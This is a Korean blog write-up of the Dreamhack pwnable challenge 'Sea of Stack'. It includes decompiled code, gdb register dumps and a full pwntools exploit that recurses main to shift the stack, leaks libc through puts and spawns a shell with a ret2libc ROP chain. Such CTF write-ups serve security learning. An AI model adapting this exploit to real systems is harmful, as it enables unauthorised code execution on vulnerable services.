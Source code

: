 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Sea of Stack"
excerpt: "드림핵 포너블 Sea of Stack 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2024-08-17 14:00
---
```


드림핵 포너블 문제 Sea of Stack 문제 풀이다.

해당 문제를 보면 우분투 22.04기반 컨테이너에 동작하고 libc 파일이 주어진다.
prob 바이너리가 주어지며 이를 실행시키면 다음과 같은 동작을 가진다.

```c+
root@b87ade2e40ca:/home# ./prob
If you really want to give me a present, bring me that kind detective's heart.
> aaaaaaaaaaaaaaa
Sea of Stack
1. safe func
2. unsafe func
> 1
aaaaaaaaaaaaaaaaaaaaaaaa
```

기드라 디컴파일러를 통해 해당 바이너리를 열어보자. 메인함수의 코드는 매우 간단하다. 코드를 살펴보면 다음과 같다.
```c++
undefined8 main(void)

{
  int iVar1;
  undefined8 local_38;
  undefined8 *local_30;
  char local_28 [28];
  int local_c;
  
  proc_init();
  printf("If you really want to give me a present, bring me that kind detective\'s heart.\n> ") ;
  read_input(local_28,0x10);
  iVar1 = strcmp(local_28,"Decision2Solve");
  if ((iVar1 == 0) && (gotPresent == 0)) {
    read_input(&local_30,8);
    read_input(&local_38,6);
    *local_30 = local_38;
    gotPresent = 1;
  }
  print_menu();
  local_c = read_number();
  if (local_c == 1) {
    (*(code *)safe)();
  }
  else if (local_c == 2) {
    (*(code *)unsafe)();
  }
  return 0;
}
```

또한 safe함수와 unsafe함수는 다음과 같다.
```c++
void safe_func(void)

{
  undefined local_38 [48];
  
  read_input(local_38,0x29);
  memset(local_38,0,0x28);
  return;
}

void unsafe_func(void)

{
  undefined local_28 [32];
  
  read_input(local_28,0x10000);
  return;
}
```

우선 unsafe 함수에서 오버플로우가 가능하다. libc가 주어진 것으로 보아, libc 주소를 leak해 ROP 체이닝을 해야할 것으로 예상된다.

간단하게 unsafe 함수에서 오버플로우를 시도해본다. 0x10000만큼의 임의 값을 입력하면 오류가 발생하며 gdb를 통해 확인하면 스택의 크기를 벗어난 지점에 값을 쓰려고 하여 권한 문제가 발생한다.

여기서 재밌는 트릭을 사용한다. main함수의 if 구문을 보면 0x10만큼 입력받은 문자열이 Decision2Solve와 동일한지 검사하여 동일하면 입력한 주소 부분에 원하는 값을 6만큼 쓸 수 있다.

취약점 트리거를 해야하는 unsafe함수를 이용해야 한다. 따라서 safe 함수 위치를 main함수 주소로 덮어 main을 여러번 call 한다. 

필자는 1000번의 call을 진행했으며 첫번째 실행의 rsp, rbp와 1000번을 실행한 rsp, rbp를 비교해보자.

```c++
//첫번째 main함수 지점 레지스터
*RAX  0x401446 (main) ◂— endbr64 
 RBX  0
 RCX  0x7d89cf314992 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x404010 (safe) —▸ 0x4013f0 (safe_func) ◂— endbr64 
 RDI  0
 RSI  0x7fffe0176627 ◂— 0x60000000100
 R8   0x51
 R9   0x7d89cf521040 (_dl_fini) ◂— endbr64 
 R10  0x402048 ◂— "If you really want to give me a present, bring me that kind detective's heart.\n> "
 R11  0x246
 R12  0x7fffe0176788 —▸ 0x7fffe0176fd3 ◂— 0x4c00626f72702f2e /* './prob' */
 R13  0x401446 (main) ◂— endbr64 
 R14  0x403d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7d89cf555040 (_rtld_global) —▸ 0x7d89cf5562e0 ◂— 0
*RBP  0x7fffe0176670 ◂— 1
*RSP  0x7fffe0176640 —▸ 0x401446 (main) ◂— endbr64 
*RIP  0x4014ca (main+132) ◂— mov qword ptr [rdx], rax


//1000번 main 호출 이후 main함수 지점 레지스터
*RAX  0
 RBX  0
*RCX  0x7fffe0166bd1 ◂— 0x4600007fffe01767
*RDX  0x401426 (unsafe_func) ◂— endbr64 
*RDI  0xa
*RSI  2
*R8   0x1999999999999999
*R9   0
*R10  0x7d89cf3beac0 ◂— 0x100000000
*R11  0x7d89cf3bf3c0 ◂— 0x2000200020002
 R12  0x7fffe0176788 —▸ 0x7fffe0176fd3 ◂— 0x4c00626f72702f2e /* './prob' */
 R13  0x401446 (main) ◂— endbr64 
 R14  0x403d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7d89cf555040 (_rtld_global) —▸ 0x7d89cf5562e0 ◂— 0
*RBP  0x7fffe0166bf0 —▸ 0x7fffe0166c30 —▸ 0x7fffe0166c70 —▸ 0x7fffe0166cb0 —▸ 0x7fffe0166cf0 ◂— ...
*RSP  0x7fffe0166bf0 —▸ 0x7fffe0166c30 —▸ 0x7fffe0166c70 —▸ 0x7fffe0166cb0 —▸ 0x7fffe0166cf0 ◂— ...
*RIP  0x40142e (unsafe_func+8) ◂— sub rsp, 0x20
```

위와 같이 rbp, rsp 값이 현저히 낮아진 것을 볼 수 있다. 스택 위치가 낮아짐에 따라서 0x10000값을 입력하여 오버플로우 공격이 가능하다.

카나리도 안걸려 있기 때문에 이후는 일반적인 ROP와 동일하다. 함수의 인자를 주기 위해 pop rdi; ret;가젯을 찾아준다. 이를 통해 puts 함수의 plt와 got를 이용해서 libc 주소를 leak 한다. 이후 다시 unsafe 함수를 호출하여 가젯을 이용해 /bin/sh를 인자로 하여 system함수를 실행한다.

아래는 익스플로잇 코드이다.


```python
from pwn import *
context.update(arch='amd64', os='linux')
#p = remote("host3.dreamhack.games", 19571)
p = process("./prob", env={'LD_PRELOAD': './libc.so.6'})
# p = process("./prob")
libc = ELF("./libc.so.6")


p.sendafter(b"> ", b"Decision2Solve\x00\x00")

safe_addr = 0x404010
main_addr = 0x401446

p.send(p64(safe_addr))
p.send(b"\x46\x14\x40\x00\x00\x00")
p.sendafter(b"> ", b"1")

print(p.recv(79))

i = 0
while True:
    if (i == 1000):
        break
    p.sendafter(b"> ", b"a"*0x10)
    p.sendafter(b"> ", b"1")
    # sleep(0.01)
    i += 1
    print(i)

p.sendafter(b"> ", b"/bin/cat /flag\x00\x00")
print("1")

puts_plt = 0x04010c0
puts_got = 0x403fa8
prdi_prbp_ret = 0x40129b
unsafe_func = 0x0401426

p.sendafter(b"> ", b"2")

pl = b"a"*32
pl += b"b"*8
pl += p64(0x40129e)
pl += p64(prdi_prbp_ret)
pl += p64(puts_got)
pl += b"c"*8
pl += p64(puts_plt)
pl += p64(unsafe_func)
pl += b"c"*(0x10000-len(pl))

p.send(pl)

libc_leak = u64(p.recv(6)[:]+b"\x00\x00")
print(f"[+] leak addr : {hex(libc_leak)}")
offset = 0x58ED0
libc_base = libc_leak - offset
print(f"[+] libc base addr : {hex(libc_base)}")
system = libc_base+0x28D64
print(f"[+] system addr : {hex(system)}")
binsh = libc_base+0x1B0698
print(f"[+] /bin/sh addr : {hex(binsh)}")

exit = 0x04012f6

pl = p64(binsh)*4
pl += p64(binsh)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(prdi_prbp_ret)
pl += p64(binsh)
pl += p64(binsh)
pl += p64(system)
pl += p64(exit)
pl += b"\x00"*(0x10000-len(pl))


p.send(pl)
p.interactive()
```